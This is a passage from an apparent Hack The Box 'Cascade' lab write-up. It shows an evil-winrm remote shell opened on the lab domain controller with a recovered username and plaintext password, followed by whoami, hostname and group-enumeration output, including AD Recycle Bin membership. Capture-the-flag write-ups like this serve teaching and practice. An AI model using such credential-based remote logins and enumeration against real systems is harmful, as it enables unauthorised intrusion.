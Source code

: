 I started the winrm session →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Cascade]
└─$ evil-winrm -i 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'         
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami
cascade\arksvc
*Evil-WinRM* PS C:\Users\arksvc\Documents> hostname
CASC-DC1
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
```